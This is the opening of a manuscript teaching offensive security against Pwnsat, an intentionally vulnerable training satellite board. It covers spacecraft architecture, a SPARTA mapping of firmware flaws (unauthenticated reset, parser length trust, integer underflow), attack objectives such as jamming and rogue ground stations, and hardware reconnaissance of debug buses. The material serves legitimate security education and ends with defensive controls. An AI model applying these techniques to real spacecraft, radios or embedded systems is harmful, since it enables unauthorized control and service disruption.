# Hacking the Final Frontier

## Offensive Security in Space Systems and Satellites

### Complete No Starch Style Manuscript

This single-file manuscript was generated from the modular Markdown chapter files in the Pwnsat booklet directory. The modular files remain the source for future editing; this file is the consolidated reading and review copy. The companion hands-on notebook is `Booklet.ipynb`.

---


# Front Matter


# Hacking the Final Frontier

## Offensive Security in Space Systems and Satellites

This book is a practical, technical guide to offensive security research against a vulnerable-by-design FlatSat platform known as **Pwnsat**. The platform models the core parts of a small satellite mission: an on-board computer, radio links, telemetry, telecommands, sensors, packet routing, and mission-specific firmware logic.

The goal is not to teach attacks against operational spacecraft. The goal is to give students, researchers, and engineers a controlled laboratory where they can learn how satellite systems fail, how those failures are discovered, how protocol and firmware weaknesses are exploited, and how the same findings can be translated into better engineering and defensive controls.

## Platform Summary

The Pwnsat/FlatSat board is a vulnerable educational target built around a compact embedded architecture:

| Area | Component | Security Relevance |
| --- | --- | --- |
| On-Board Computer | Raspberry Pi RP2040, dual-core ARM Cortex-M0+ | Runs the flight software and packet-processing logic. |
| Radio Link | Dual SX1262 LoRa radios | Separates uplink telecommands from downlink telemetry. |
| Local Control | USB CDC bridge | Provides a high-speed command and debugging path. |
| Sensors | BME280 and LIS2DH12 | Provide environmental and motion telemetry. |
| Internal Buses | SPI and I2C | Expose useful hardware reconnaissance and spoofing surfaces. |
| Protocol | CCSDS Space Packet Protocol-inspired framing | Routes commands and telemetry by APID. |

## Key Vulnerability Themes

This manuscript treats the board as a complete mission system rather than a single embedded target. The main weakness classes are:

- **Unauthenticated telecommands:** the uplink accepts commands without proving the identity or authority of the sender.
- **Cleartext radio traffic:** telemetry and telecommands can be observed and replayed in a lab RF environment.
- **Protocol parser weaknesses:** malformed Space Packet Protocol frames can stress length parsing, APID dispatch, and payload handling.
- **Unsafe command handlers:** high-impact actions such as reset or actuator simulation are reachable through simple packet construction.
- **Exposed debug and data buses:** UART, SPI, I2C, SWD, and test pads provide hardware-level visibility into the system.
- **Open-source intelligence leakage:** public schematics, firmware, and build artifacts reduce the cost of reversing.

## Reading Path

The book is organized as a progressive attack chain. Each chapter should stand on its own, but the strongest learning path is linear:

1. [Space Fundamentals and System Architecture](Space%20Fundamentals%20and%20System%20Architecture.md)
2. [SPARTA Framework](SPARTA%20Framework.md)
3. [Phase 1 Discovery](Phase%201%20Discovery.md)
4. [Phase 1 Blind Reconnaissance](Phase%201%20Blind%20Reconnaissance.md)
5. [Phase 1 Assisted Analysis](Phase%201%20Assisted%20Analysis.md)
6. [Phase 2 Protocol Analysis: Space Packet Protocol](Phase%202%20Protocol%20Analysis%20%28Space%20Packet%20Protocol%29.md)
7. [Phase 3 RF Communications and Attack Surface](Phase%203%20RF%20Communications%20and%20Attack%20Surface.md)
8. [Phase 4 Exploitation](Phase%204%20Exploitation.md)
9. [Phase 5 Exploit Reliability and Firmware Reversing](Phase%205%20Exploit%20Reliability%20and%20Firmware%20Reversing.md)
10. [Phase 6 Defensive Engineering and Hardening](Phase%206%20Defensive%20Engineering%20and%20Hardening.md)
11. [Conclusion](Conclusion.md)
12. [Appendix A: Lab Setup and Safety](Appendix%20A%20Lab%20Setup%20and%20Safety.md)
13. [Appendix B: APID and Packet Reference](Appendix%20B%20APID%20and%20Packet%20Reference.md)
14. [Appendix C: Glossary](Appendix%20C%20Glossary.md)

## Companion Exercise Booklet

The hands-on exercises are collected in [Booklet.ipynb](Booklet.ipynb). The notebook is designed to work with public example files so readers can practice even without the physical board, a logic analyzer, or RF equipment.

The booklet includes exercises for:

- Parsing exported I2C logic analyzer captures.
- Building I2C register maps.
- Decoding Space Packet Protocol frames.
- Constructing safe telecommand payloads.
- Comparing raw SPP bytes, USB-framed payloads, and RF ASCII-hex payloads.
- Running offline SPP fuzzing exercises with libFuzzer, sanitizers, corpus files, and crash triage.
- Practicing offline SpaceCAN bus decoding, replay reasoning, and fragmentation analysis.
- Mapping firmware findings to SPARTA.

Required notebook dependencies are listed in [requirements-booklet.txt](requirements-booklet.txt). Helper scripts live in [scripts/i2c_parser.py](scripts/i2c_parser.py) and [scripts/spp_tools.py](scripts/spp_tools.py). The fuzzing exercises use the C harnesses under [resources/fuzzing](resources/fuzzing).

## Lab Safety and Scope

All examples in this book assume an isolated educational FlatSat, local hardware access, and frequencies/power levels permitted for the test environment. Do not transmit against real spacecraft, third-party ground stations, public satellite services, or radio systems you do not own or have explicit authorization to test.

The Pwnsat board is intentionally vulnerable so that dangerous patterns can be studied safely before they appear in real systems.


# Part I: Foundations


# Space Fundamentals and System Architecture

Before attacking a satellite-like platform, you need to understand what the platform is trying to imitate. A spacecraft is not just an embedded board in orbit. It is part of a mission system that includes radios, operators, ground stations, packet formats, time constraints, autonomy, sensors, and physical limits.

Pwnsat compresses that environment into a laboratory FlatSat. The board is intentionally accessible, but the security lessons map to real spacecraft engineering patterns: command authority, telemetry trust, bus exposure, safe-mode behavior, packet parsing, and mission operations.

## Orbital Mechanics as an Attack Constraint

Orbital mechanics defines when a spacecraft can communicate, how long a contact window lasts, and what an attacker or operator can realistically do during that window.

| Orbit Type | Altitude Range | Operational Behavior | Security Implication |
| --- | --- | --- | --- |
| LEO, Low Earth Orbit | 160-2,000 km | Short passes over a ground station, often around 10-15 minutes. | Attacks must be prepared before contact and executed quickly. Doppler shift matters for RF work. |
| SSO, Sun-Synchronous Orbit | 600-800 km typical | Predictable passes at similar local solar times. | Predictability helps both operators and adversaries plan observation windows. |
| MEO, Medium Earth Orbit | 2,000-35,786 km | Longer visibility than LEO, higher path loss. | Requires more capable RF infrastructure and planning. |
| GEO, Geostationary Orbit | 35,786 km | Appears fixed relative to Earth. | Persistent visibility can simplify monitoring, jamming, or command attempts. |

Pwnsat does not orbit, but the same concept appears in the lab as **access windows**. You might only have the board powered during a workshop, only have a few minutes of RF capture, or only have one chance to observe boot-time bus traffic. Treat every capture as a pass.

## Mission Segments

A space system is usually described through segments. Each segment introduces different trust boundaries and attack surfaces.



## Space Segment

The space segment contains the spacecraft or satellites that execute the mission. In a constellation, spacecraft may communicate with one another through inter-satellite links, share state, relay telemetry, or coordinate positioning.

In a real mission, the space segment includes:

- The spacecraft bus
- Payloads
- TT&C radios
- On-board computers
- Sensors and actuators
- Flight software
- Inter-satellite links, when present

In Pwnsat, the space segment is represented by the FlatSat board itself: RP2040, radios, sensors, firmware, and packet-processing logic.

> A satellite is a human-made spacecraft intentionally placed into orbit around another body. Every satellite is a spacecraft, but not every spacecraft is a satellite.

## Ground Segment

The ground segment contains the infrastructure used to operate the mission from Earth:

- Mission Operations Center, or MOC
- Ground stations
- Operator consoles
- Data processing systems
- Scheduling systems
- Command generation tools
- Telemetry storage and monitoring

The ground segment is where commands are prepared, validated, transmitted, and audited. It is also where telemetry is received and interpreted. If the ground segment trusts unauthenticated telemetry, an attacker can potentially influence operator decisions without touching the spacecraft directly.

In Pwnsat, a laptop, USB connection, LoRa transceiver, or software command tool can act as a simplified ground segment.

## User Segment

The user segment contains the people, systems, or devices that consume the mission output:

- GNSS receivers
- Satellite phones
- Satellite internet terminals
- Weather data users
- Earth observation processing pipelines
- Science teams

Security failures can cross into the user segment when corrupted telemetry, manipulated payload data, or forged status information reaches downstream users.

## Core Satellite Subsystems



Most spacecraft can be understood as a collection of subsystems. Pwnsat does not implement every subsystem physically, but it borrows their command and telemetry patterns.

| Subsystem | Purpose | Pwnsat Analogy |
| --- | --- | --- |
| ADCS, Attitude Determination and Control | Determines and controls spacecraft orientation. | Simulated through motion/IMU data and command handlers. |
| C&DH, Command and Data Handling | Processes commands and routes telemetry/payload data. | RP2040 firmware, APID dispatch, USB CDC, packet parser. |
| EPS, Electrical Power System | Generates, stores, and distributes power. | Board power rails, USB power, reset behavior. |
| Propulsion | Performs orbit maintenance or maneuvers. | Simulated thruster APID and actuator-style commands. |
| Structures and Mechanisms | Physical support, deployment, and mechanical systems. | Board layout, connectors, headers, payload interface. |
| TT&C, Telemetry, Tracking, and Command | Sends telemetry and receives commands. | SX1262 uplink/downlink and Space Packet Protocol frames. |
| Thermal Control | Maintains operating temperature. | BME280 environmental telemetry and health monitoring. |

## Attitude Determination and Control

ADCS controls where a spacecraft points. A satellite may need to point solar panels toward the Sun, antennas toward Earth, or payloads toward a target.

Typical ADCS sensors include:

- Star trackers
- Magnetometers
- Gyroscopes
- Sun sensors

Typical actuators include:

- Reaction wheels
- Magnetorquers
- Thrusters

From a security perspective, ADCS is sensitive because false sensor data or unauthorized actuator commands can cause mission degradation even without code execution.

## Command and Data Handling

C&DH is the nervous system of the spacecraft. It receives telecommands, validates them, routes them to subsystems, collects telemetry, and manages payload data.

Common C&DH components include:

- On-board computers
- Microcontrollers
- FPGAs
- Memory devices
- Packet decoders
- Telemetry processors

In Pwnsat, C&DH is the most important offensive target. The RP2040 firmware parses incoming frames, extracts APIDs, dispatches handlers, and produces telemetry. A bug in this layer can turn a malformed packet into a reset, memory corruption, command spoofing, or remote code execution in the lab.

## Electrical Power System

The EPS provides energy to the spacecraft. Real EPS designs include solar panels, batteries, power distribution units, regulators, fuses, and protection circuits.

For security testing, EPS matters because power events often expose behavior that is invisible during normal runtime:

- Boot logs over UART
- Flash reads over SPI
- Sensor initialization over I2C
- Watchdog recovery paths
- Brownout or reset loops

Pwnsat's power-up sequence is therefore a useful reconnaissance moment.

## Propulsion

Propulsion systems change orbit, adjust attitude, perform station keeping, or deorbit a spacecraft. Real systems include tanks, valves, thrusters, pumps, regulators, and safety interlocks.

Pwnsat models propulsion as a commandable subsystem. That makes it a useful training target because the security question is the same: **who is allowed to send a high-impact command, and how does the spacecraft verify that authority?**

## Telemetry, Tracking, and Command

TT&C is the mission's command-and-control channel. It includes uplink commands, downlink telemetry, ranging, tracking, and sometimes emergency recovery.

Pwnsat's TT&C model uses:

- A LoRa uplink for telecommands
- A LoRa downlink for telemetry
- CCSDS-inspired packet framing
- APID-based routing

Because the lab protocol lacks strong authentication and encryption, TT&C becomes the main remote attack surface.

## Thermal Control

Thermal control prevents overheating and freezing. Real spacecraft use radiators, heaters, coatings, heat pipes, thermistors, and thermal straps.

Pwnsat uses environmental telemetry as a simplified model. Temperature, pressure, and humidity readings can be used to teach:

- Sensor trust boundaries
- Telemetry spoofing
- I2C bus analysis
- Health packet parsing

## From Spacecraft Architecture to Attack Surface

The practical lesson is simple: every subsystem creates a trust boundary.

| Trust Boundary | Example Question |
| --- | --- |
| RF link | Can anyone transmit a valid telecommand? |
| Packet parser | What happens when length fields are inconsistent? |
| APID dispatch | Can low-privilege packet types reach high-impact handlers? |
| Sensor bus | Can telemetry be spoofed or replayed? |
| Debug interface | Is firmware extraction or live debugging possible? |
| Reset path | Can an attacker force denial of service? |

The rest of the book follows those boundaries from physical discovery to protocol reversing and exploitation.


# SPARTA Framework Mapping

[SPARTA](https://sparta.aerospace.org/) is a space-focused adversary tactics, techniques, and procedures framework. It gives spacecraft operators and security researchers a common vocabulary for describing how a spacecraft or mission system may be compromised through cyber, physical, supply-chain, or counterspace activity.

In this book, SPARTA is used as a map. It does not replace hands-on testing, but it helps connect each Pwnsat weakness to a real spacecraft security concept.

## Why SPARTA Matters for Pwnsat

Pwnsat is intentionally vulnerable, but its design mirrors patterns found in real missions:

- Public design data can reveal system architecture.
- Firmware can expose command handlers and packet formats.
- Cleartext RF links can leak operational details.
- Weak command authentication can permit unauthorized control.
- Unsafe parsing can turn telemetry or telecommands into memory corruption.

Using SPARTA keeps the lab from becoming a collection of isolated tricks. Each exercise becomes part of a larger spacecraft attack chain.

## SPARTA Mapping


## Vulnerability Assessment

| Asset | Location or Source | Security Weakness |
| --- | --- | --- |
| Hardware design | Public FlatSat design material | Board layout, interfaces, and components can be studied before touching the target. |
| Firmware source | Public firmware repository | Command handlers, APIDs, frequencies, and parsing logic can be reviewed directly. |
| Firmware artifacts | `firmware.elf`, `firmware.bin`, or build outputs | Symbols, memory layout, and functions may simplify reversing. |
| Radio link | Uplink and downlink LoRa channels | No strong authentication or encryption in the lab model. |
| Debug interfaces | Headers, test pads, SWD/UART candidates | Physical access may allow firmware extraction or live debugging. |
| Internal buses | SPI and I2C | Boot traffic, sensors, and radio configuration can be observed. |

## Firmware-Validated Findings

The firmware confirms the major attack surfaces used throughout the book.

| Finding | Firmware Evidence | SPARTA Interpretation |
| --- | --- | --- |
| Fixed uplink parameters | `ruplink.h` defines 918 MHz, 250 kHz bandwidth, SF7, CR5. | Reconnaissance and mission-specific channel scanning. |
| Fixed downlink parameters | `rdownlink.h` defines 916 MHz, 250 kHz bandwidth, SF7, CR5. | Downlink interception and exfiltration. |
| No RF authentication | `uplinkRadioCheckPacketReceived()` forwards decoded bytes directly to `commandHandler()`. | Rogue Ground Station and malicious command packets. |
| No RF encryption | Telemetry packets are built as plaintext SPP frames and sent with `downlinkRadioTransmit*()`. | Downlink intercept and downlink exfiltration. |
| SPP parser trusts declared length | `spp_unpack_packet()` copies `header.length + 1` bytes without verifying `buffer_len >= 6 + length + 1`. | Parser design flaw and memory-corruption primitive. |
| Unauthenticated reset | APID `0x02` calls `watchdog_reboot()`. | Malicious command packet causing denial of service. |
| Beacon-rate abuse | APID `0x05` accepts `0` seconds, creating continuous beacon transmission. | Command abuse and service degradation. |
| Broadcast underflow | APID `0x06` computes `msg_len = payload_total - 2` without first requiring a two-byte frequency field. | Integer underflow leading to unsafe copy and potential control-flow corruption. |
| Arbitrary broadcast frequency attempt | APID `0x06` uses packet-controlled frequency in `downlinkRadioTransmitBroadcast()`. | Unauthorized RF reconfiguration in the lab environment. |
| Sensor telemetry trust | `bmeRead()` and `accelerometerRead()` feed telemetry without plausibility or authenticity checks. | Sensor Data spoofing or Bus Traffic Spoofing through local bus manipulation. |
| Link availability dependency | The mission loop depends on successful RF command and telemetry paths. | Jam Link Signal and downlink disruption scenarios. |

## ST0001 - Reconnaissance


Reconnaissance covers the information-gathering activities that help an operator understand the target before attempting access.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| REC-0001.01 Software Design | Reviewing firmware architecture, task layout, and APID dispatch. | Reverse engineer command parsing, locate debug hooks, bypass fault-recovery logic, and build high-fidelity emulators for mission rehearsal. |
| REC-0001.02 Firmware | Studying binaries, ELF symbols, or build artifacts. | Map trust boundaries and hardware choke points (like watchdogs or power controllers) to prepare malicious updates, exploit unsigned images, or force firmware downgrades. |
| REC-0001.04 Data Bus Information | Identifying I2C, SPI, UART, and SWD on the board. | Enumerate bridges and gateways to craft frames that collide with or supersede legitimate traffic, starve health monitoring, or disrupt payload systems. |
| REC-0003.01 Communications Equipment | Identifying radios and modulation. | Characterize signal parameters to build compatible Software Defined Radio (SDR) pipelines and exploit hardware limits (like AGC or power budgets) to induce non-linear disruption. |
| REC-0003.02 Commanding Details | Finding telecommand formats and handlers. | Craft syntactically valid command traffic and time injections to bypass authentication controls or induce counter/timetag desynchronization. |
| REC-0003.03 Mission-Specific Channel Scanning | Determining uplink/downlink frequencies. | Characterize access schemes (TDMA/FDMA/CDMA) and user terminal waveforms to selectively jam, impersonate, or pivot between distinct organizational enclaves. |
| REC-0005.01 Uplink Intercept Eavesdropping | Capturing telecommands. | Capture telecommand framing, authentication fields, emission designators, and preambles to build accurate SDR injection pipelines and map operational maintenance windows. |
| REC-0005.02 Downlink Intercept | Capturing telemetry. | Analyze system states, mode transitions, and operational margins to refine target timing and build mission testbeds, even when primary payload content is encrypted. |
| REC-0006.01 Development Environment | Compile the code. | Identify policy gaps (e.g., unreviewed code paths), embedded secrets, and permissive compiler flags to compromise the build pipeline or reconstruct high-fidelity testbeds using debug metadata. |

## ST0002 - Resource Development


Resource development is the preparation of tools and infrastructure before active operations.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| RD-0002.01 Ground Station Equipment | Constructing a rogue, independent RF ground stack. | Replicate mission waveforms and framing to passively collect data, actively probe infrastructure, or execute spoofing attacks against weakly authenticated links. |
| RD-0002.03 Spacecraft | Use the Pwnsat Flatsat. | Conduct short-range spectrum measurements, test spoofing/denial techniques, or exploit weak segmentation in rideshare environments. |


For this book, resource development includes Python decoders, packet builders, RF capture workflows, firmware analysis scripts, and repeatable test harnesses.

## ST0003 - Initial Access


Initial access is the first successful path into the target's operational control surface.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| IA-0008.01 Rogue Ground Station | Sending an unauthorized telecommand from lab RF equipment that imitates the expected uplink. | Generate and transmit over-the-air signals that perfectly match the target mission's specific bands, modulation, and framing parameters to execute spoofing or protocol-level manipulation. |
| IA-0007.02 Malicious Command via Ground Station | Sending a malicious command through a legitimate or compromised ground-station path. | Insert malicious scripts or procedures into existing timelines, modify operational limits, and leverage standard downlink channels for data exfiltration, hiding the attack under legitimate command authority. |

On Pwnsat, initial access is often protocol-level rather than shell-level. If the board accepts a forged telecommand, the attacker has crossed the command authority boundary.

## ST0004 - Execution


Execution covers unauthorized commands or code running on the spacecraft bus.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| EX-0001.01 Command Packets | Resending authentic telecommand Protocol Data Units (PDUs) with intact framing, CRCs, counters, or timetags captured from prior exchanges. | Re-trigger specific operational actions (e.g., mode changes), map vehicle reactions at different states, or saturate queues to crowd out legitimate traffic. |
| EX-0001.02 Bus Traffic Replay | Tampering with device firmware, programmable logic (FPGA bitstreams), configuration blobs, or MCU/SoC boot ROM fallbacks. | Consume available bus bandwidth, starve critical publishers, force repetitive subsystem actions, or precisely time injections to collide with and supersede legitimate messages on scheduled buses. |
| EX-0005.02 Malicious Use of Hardware Commands | Issuing low-level device, register, or maintenance commands directly to hardware components over the internal bus. | Bypass high-level command mediation to over-drive mechanisms, disable hardware watchdogs, alter calibration parameters, or manipulate critical power domains. |
| EX-0012.05 Scheduling Algorithm | Tampering with real-time scheduling parameters, task priorities, CPU budgets, deadlines, and clock sources. | Weaponize execution time to introduce high-rate control loop jitter, starve critical command/telemetry handling, and induce hard-to-debug, state-dependent malfunctions. |
| EX-0012.06 Science/Payload Data | Modifying raw detector frames, Level-0 data streams, mass memory file catalogs, or adjacent metadata (timestamps, calibration tables). | Degrade mission value or mislead end-users by forcing ground data pipelines to silently misclassify or discard corrupted scientific payloads. |
| EX-0012.07 Propulsion Subsystem | Editing thruster calibrations, valve timings, inhibit masks, delta-V tables, and tank pressure/temperature safety limits. | Provoke thruster over-correction, waste finite propellant through continuous trims, trigger false autonomous lockouts, or induce off-axis attitude excursions. |
| EX-0012.10 Command & Data Handling Subsystem | Adjusting runtime variables such as opcode-to-handler maps, command queue depths, message routing tables, and event/telemetry filters. | Intercept and reshape logical workflows by dropping or misrouting commands, suppressing vital telemetry, and confusing ground tracking processors. |
| EX-0013.01 Valid Commands | Saturating data paths with an excessive volume of legitimate but low-risk telecommands or bus messages (e.g., no-ops, time queries). | Exhaust CPU cycles, fill command queues, and trigger continuous downstream acknowledgments to delay authentic operations and induce transient loss of control. |
| EX-0013.02 Erroneous Input | Injecting volumetric invalid data—such as wideband noise, malformed packets, or frames with bad CRCs—into receivers and parsers. | Force front-end decoders and parsers into constant validate-and-deny cycles, crowding out real work and driving up system error loads. |
| EX-0014.02 Bus Traffic Spoofing | Emitting forged messages with valid identifiers, addresses, and timing parameters directly onto internal vehicle data paths (MIL-STD-1553, SpaceWire, CAN). | Mask real hardware publishers to make subscribers accept unauthorized actuator setpoints, power toggles, or telemetry states. |
| EX-0016.01 Uplink Jamming | Transmitting RF interference toward the spacecraft's receive antenna to match its frequency, footprint, polarization, and Doppler conditions. | Drive the uplink signal-to-noise ratio below the demodulator threshold to completely block or delay critical telecommands and ranging traffic. |
| EX-0016.02 Downlink Jamming | Creating RF noise in the same frequency band as the satellite's downlink signal, targeting the field of view of ground receiving terminals. | Blind ground users and receivers, often requiring air/space platforms to intercept directional ground stations, or utilizing ground assets to disrupt vulnerable omnidirectional antennas (like GNSS). |

Execution in this lab should always be performed against the local Pwnsat board or emulator, never against third-party radio systems.

## ST0006 - Defense Evasion and Denial


Some Pwnsat behaviors are better described as service degradation than code execution.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| DE-0002.02 Jam Link Signal | Overwhelming or jamming the downlink radio frequency signal to block transmitted telemetry from reaching its ground destination. | Leave ground controllers completely unaware of real-time vehicle status, preventing them from deploying critical stability and safety mitigations. |
| DE-0002.03 Inhibit Spacecraft Functionality | Suppressing telemetry directly at the source by manipulating on-board software generation or transmission hardware. | Disable telemetry publishers, mute event channels, or adjust packet filters to hide unauthorized actions while the spacecraft continues operating. |


## ST0008 - Exfiltration


Exfiltration is the unauthorized removal of mission data.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| EXF-0001 Replay | Re-sending previously valid commands or procedures to force the spacecraft to re-transmit recorded data. | Induce legitimate-looking data dumps (recorder playbacks, file directories) timed to align perfectly with actor-controlled reception windows. |
| EXF-0002.01 Power Analysis Attacks | Measuring the instantaneous power consumption of hardware devices like crypto engines or microcontrollers. | Correlate tiny, data-dependent power fluctuations (using SPA/DPA) to map operational sequences or extract cryptographic key bits. |
| EXF-0003.02 Downlink Exfiltration | Capturing cleartext downlink telemetry. | Demonstrates confidentiality failure on the RF link. |
| EXF-0003.01 Uplink Exfiltration | Capturing cleartext uplink telecommands or command-like traffic. | Captured command traffic can support replay, protocol reconstruction, and later intrusion attempts. |
| EXF-0007 Compromised Ground System | Leveraging a foothold within trusted mission ground infrastructure (workstations, control servers, or archive databases) to siphon data. | Mirror real-time streams, export payload products, and harvest command histories silently by abusing authorized data dissemination pathways. |

## ST0009 - Impact


Threat actor is trying to manipulate, interrupt, or destroy the space system(s) and/or data.

| SPARTA Technique | Pwnsat Example | Objective|
| --- | --- | --- |
| IMP-0002 Disruption | Temporarily impairing, altering, or manipulating communication paths and messages between the spacecraft and ground controllers. | Cause data loss, delay critical operational actions, or corrupt message integrity to jeopardize the spacecraft's immediate purpose. |
| IMP-0003 Denial | Temporarily eliminating complete access, use, or operation of a system without causing permanent physical hardware damage. | Block communications entirely, exhaust processing resources, or degrade subsystems to completely lock ground controllers out of the spacecraft. |

## RF-Specific TTP Notes

The RF chapter introduces attacks that are not always tied to a firmware bug. They map to SPARTA differently depending on the objective:

| RF Activity | Primary SPARTA Mapping | Notes |
| --- | --- | --- |
| Passive downlink capture | `REC-0005.02 Downlink Intercept`, then `EXF-0003.02 Downlink Exfiltration` | Reconnaissance becomes exfiltration when mission data is collected and reconstructed. |
| Passive uplink capture | `REC-0005.01 Uplink Intercept Eavesdropping`, then `EXF-0003.01 Uplink Exfiltration` | Useful for protocol learning, replay analysis, and command cadence study. |
| Rogue command transmission | `IA-0008.01 Rogue Ground Station`, `EX-0001.01 Command Packets` | Applies when the attacker does not control a legitimate ground station. |
| Link jamming | `DE-0002.02 Jam Link Signal` | Availability attack against telemetry or command links. |
| RF spoofing | `IA-0008.01 Rogue Ground Station` or `EX-0014` | Initial-access mapping fits forged command links; spoofing mapping fits forged data treated as truth. |

## Fuzzing-Specific Mapping Notes

Fuzzing is a validation method, not a SPARTA tactic. The technique depends on what the fuzzed input proves.

| Fuzzing Result | Primary SPARTA Mapping | Notes |
| --- | --- | --- |
| Malformed packet stresses parser validation | `EX-0013.02 Erroneous Input` | Use when the input is invalid, malformed, truncated, oversized, or inconsistent. |
| Unauthorized telecommand reaches a handler | `EX-0001.01 Command Packets` | Use when the packet is accepted as a command and causes command-path behavior. |
| Fuzz case causes repeated lockup or reboot | `DE-0002.03 Inhibit Spacecraft Functionality` | Use when the spacecraft-side function is degraded or suppressed. |
| Fuzz case eliminates access or operation in the lab model | `IMP-0003 Denial` | Use for complete loss of availability, not for minor parsing errors. |
| RF delivery of a fuzz-discovered command | `IA-0008.01 Rogue Ground Station` | Use only when the command is transmitted by an unauthorized lab RF stack. |

## Defensive Lessons

Each offensive finding should produce a defensive requirement:

| Finding | Engineering Control |
| --- | --- |
| Cleartext RF traffic | Encrypt sensitive command and telemetry data where mission constraints allow. |
| Unauthenticated commands | Add command authentication, authorization, and replay protection. |
| Unsafe packet lengths | Validate all length fields before allocation, copy, or dispatch. |
| Exposed debug ports | Disable or protect debug access in deployed configurations. |
| Public firmware symbols | Treat public artifacts as adversary-visible and reduce unnecessary leakage. |
| Sensor spoofing | Authenticate critical sensor data where feasible and add plausibility checks. |

SPARTA gives the language; Pwnsat gives the hands-on lab.


# Part II: Discovery and Reconnaissance


# Phase 1: Discovery

Discovery is the first phase of the Pwnsat attack chain. The objective is to build a reliable mental model of the target before sending commands, modifying firmware, or attempting exploitation.

Pwnsat can be studied through two complementary paths:

- **Black-box discovery:** used when schematics, source code, and firmware are unavailable. The operator relies on physical inspection, electrical probing, signal capture, and protocol observation.
- **White-box discovery:** used when public design files, source code, firmware images, blog posts, or conference material are available. The operator uses that information to shorten the reconnaissance phase.

Both paths should lead to the same core outputs:

| Output | Description |
| --- | --- |
| Hardware map | MCU, radios, sensors, memories, connectors, headers, and test pads. |
| Interface map | UART, SPI, I2C, SWD/JTAG, USB CDC, and RF links. |
| Protocol map | Packet format, APIDs, command types, sequence fields, and payload conventions. |
| Command map | Supported telecommands, telemetry frames, high-impact handlers, and reset paths. |
| Attack surface map | Physical, RF, firmware, protocol, and operational entry points. |

In this book, the black-box path is used to teach disciplined hardware reconnaissance. The white-box path shows how open information can transform the same target into a much faster reversing exercise.

Continue with:

- [Phase 1 Blind Reconnaissance](Phase%201%20Blind%20Reconnaissance.md)
- [Phase 1 Assisted Analysis](Phase%201%20Assisted%20Analysis.md)


# Phase 1: Blind Reconnaissance

Black-box reconnaissance assumes that you do not have schematics, source code, firmware, or documentation. Your job is to discover the board's architecture from physical evidence and electrical behavior.

For a satellite-like embedded system, blind reconnaissance should answer five questions:

1. What computes?
2. What communicates?
3. What stores data?
4. What senses or actuates?
5. Where can an operator observe or influence the system?

**Primary SPARTA TTP:** REC-0001.04 Data Bus Information.

## Step 1: Visual Reconnaissance

Visual reconnaissance is not guesswork. Every visible component gives constraints about the system.

## Goals

- Identify processing units.
- Identify external memories.
- Identify communication modules.
- Locate test points and headers.
- Infer possible buses.
- Build a first-pass attack surface map.

## 1.1 Identify the Main MCU or SoC

Look for:

- The largest IC on the board.
- Markings or silkscreen labels.
- A crystal oscillator nearby.
- Dense decoupling capacitors.
- Traces running to radios, sensors, memory, or headers.

Heuristics:

- A nearby crystal often means a timing-sensitive processor or radio.
- Many decoupling capacitors near one IC usually indicate a logic core.
- A nearby flash package suggests external code or data storage.
- Traces from the MCU to test pads may expose SWD, UART, or boot pins.

Expected Pwnsat finding:

| Item | Expected Observation |
| --- | --- |
| Main controller | Raspberry Pi RP2040 or equivalent board controller. |
| Role | Flight software, packet parsing, telemetry generation, command dispatch. |
| Security relevance | The MCU is the target for firmware reversing and memory-corruption testing. |



## 1.2 Identify External Flash or Memory

Look for:

- 8-pin SOIC or WSON packages.
- Markings such as `25Qxx`, `MX25`, `W25`, or similar SPI flash families.
- Traces to MCU pins that look like CLK, MOSI, MISO, and CS.

Security implications:

- SPI flash can contain firmware or configuration.
- Boot-time SPI traffic can reveal memory layout or firmware reads.
- If write protection is weak, flash may become a persistence target.



## 1.3 Identify RF Components

Look for:

- Shielded RF modules.
- Antenna connectors or antenna traces.
- Matching networks near RF pins.
- Crystals or TCXOs near radios.
- SPI-like traces between MCU and radio.

Expected Pwnsat finding:

| Item | Expected Observation |
| --- | --- |
| Radio family | SX1262 LoRa-class radios. |
| Radio count | Two radios, commonly used as separate uplink and downlink paths. |
| Security relevance | RF is the remote command and telemetry attack surface. |



## 1.4 Identify Headers and Test Pads

Headers and test pads are the highest-value targets in blind hardware reconnaissance.

Look for labels such as:

- `TX`, `RX`
- `SWDIO`, `SWCLK`
- `CLK`, `DIO`, `MOSI`, `MISO`, `CS`
- `GND`, `3V3`, `VBUS`
- `BOOT`, `RUN`, `RST`

Possible interfaces:

| Interface | Pins | Value |
| --- | --- | --- |
| UART | TX, RX, GND | Boot logs, debug shell, telemetry text. |
| SWD | SWDIO, SWCLK, GND, VREF | Firmware extraction, breakpoints, memory inspection. |
| SPI | CLK, MOSI, MISO, CS | Flash reads, radio configuration, packet observation. |
| I2C | SDA, SCL, GND | Sensor discovery and telemetry spoofing. |
| GPIO | Digital pins | Reset, boot mode, actuator simulation. |



## Step 2: Power Mapping and Ground Reference

Before probing any signal, establish electrical context.

## 2.1 Find Ground

Use continuity mode to identify ground references:

- USB connector shield.
- Large copper pours.
- Mounting holes.
- Negative side of bulk capacitors.
- Ground pins on headers.

Always connect the logic analyzer ground to the target ground before probing digital channels.

## 2.2 Find Voltage Rails

Use a multimeter to measure likely power pins:

- 3.3 V for MCU logic and sensors.
- 5 V from USB input.
- Lower rails if regulators are present.

Do not inject signals into unknown pins. Classification should start with passive observation.

## Step 3: Interface Discovery

Once ground and voltage references are known, classify signals by behavior.

## 3.1 UART Identification

UART is asynchronous serial communication. It usually uses TX, RX, and GND, with no shared clock.

Characteristics:

- Idle high, commonly near 3.3 V.
- Bursts during boot or reset.
- Human-readable ASCII is common in debug builds.
- Common baud rates include 9600, 115200, 230400, and 921600.

Procedure:

1. Connect ground.
2. Probe candidate TX pins.
3. Trigger capture during power-up.
4. Try automatic baud detection or common baud rates.
5. Search decoded output for banners, logs, stack traces, or command prompts.

Security value:

- Boot logs may reveal firmware version, APIDs, frequencies, sensor state, or error paths.
- Debug shells may expose direct command execution in development builds.

## 3.2 SPI Identification

SPI is common for flash memories, radios, displays, and high-speed peripherals.

Characteristics:

- At least four logical signals: CLK, MOSI, MISO, CS.
- Clock only toggles during active transactions.
- Chip-select line usually goes low during a transaction.
- Traffic often appears immediately after reset when flash or radios initialize.

Procedure:

1. Identify candidate pins near flash or radios.
2. Probe four or more channels at once.
3. Trigger on clock activity during reset.
4. Decode as SPI mode 0 or mode 3 first.
